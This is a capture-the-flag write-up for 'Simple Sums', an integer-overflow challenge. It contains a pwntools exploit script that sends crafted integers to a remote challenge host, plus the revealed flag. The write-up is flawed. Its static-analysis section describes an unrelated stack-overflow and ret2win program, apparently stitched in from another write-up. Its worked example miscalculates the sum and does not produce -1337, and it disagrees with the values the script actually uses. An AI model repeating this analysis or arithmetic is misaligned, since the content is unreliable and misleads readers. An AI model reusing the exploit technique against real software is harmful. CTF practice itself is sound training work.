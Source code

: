 # Simple Sums - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/SimpleSums.gif)

---

## Challenge Summary

The program prompts the user for two **positive integers**, sums them, and prints the result. If the sum equals `-1337`, it reveals the flag. Though negative input is rejected, the program fails to check for **integer overflow**. By supplying large values that wrap around and cause the sum to equal `-1337`, the attacker can **trigger the win condition** and access `flag.txt`.

## Binary Information

```bash
$ file simplesums
```

![Alt text](img/2.png)

```bash
$ pwn checksec simplesums
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.

![Alt text](img/4.png)

In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.

![Alt text](img/5.png)

**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploitation Strategy

The goal is to make the sum of two **positive integers** equal `-1337` using a **signed integer overflow**. Since `sum` is a signed `int`, large values can wrap around into the negative range.

To exploit this:

- Find two large positive integers `a` and `b` such that `a + b == -1337` (in 32-bit signed math).
- For example, use:

  ```
  a = 2147482313
  b = 6666
  ```

  Because `2147482313 + 6666 == 2147488980`, which wraps to `-1337`.

This bypasses the positivity checks and triggers the condition `if (sum == -1337)`, printing the flag.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template simplesums --host host5.metaproblems.com --port 5030
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'simplesums')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5030)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

# (unsigned int)(-1337) = 2^32 - 1337 = 4294965959
# a + b == 4294965959

a = b'2147482312'
b = b'2147483647'
io.sendline(a)
io.sendline(b)
io.recvuntil(b"Good job! Here's your flag:")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")



```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The program reads two positive integers from the user and adds them, but it does not check for **integer overflow**. Since `sum` is a signed integer, users can input large values that **wrap around** to negative numbers. By supplying inputs that cause the sum to equal `-1337` due to overflow, an attacker can bypass the logic and trigger the hidden `flag.txt` read.

---

## Flag

```
MetaCTF{c0unting_beyond_infinity}
```
